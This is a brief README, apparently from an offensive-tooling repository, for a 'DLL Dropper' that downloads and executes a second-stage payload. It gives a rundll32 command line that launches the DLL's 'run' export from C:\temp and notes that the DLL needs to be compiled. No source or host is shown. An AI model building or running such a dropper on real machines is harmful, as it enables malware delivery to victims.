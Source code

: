 # DLL Dropper

Dropper.dll downloads and executes a second stage payload.

`C:\Windows\System32\Rundll32.exe C:\temp\Dropper.dll,run` 

**Note:** *Needs to be compiled*
